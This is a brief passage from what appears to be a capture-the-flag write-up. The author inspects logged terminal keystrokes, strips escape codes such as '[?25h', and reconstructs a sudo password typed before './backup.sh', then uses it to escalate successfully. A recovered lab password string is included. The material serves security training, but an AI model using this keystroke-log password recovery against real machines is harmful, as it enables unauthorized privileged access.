

`sudo` Hmmm. And all the letters just before `[?25h`. Let's check this pattern and see what we have :

`Q3dtwpBm | sudo ./backup.sh ech Q3Eddtdw3pMB | udo backup.sh [...]`

We are missing some letters here and then but let's try with this password :



And here we are !
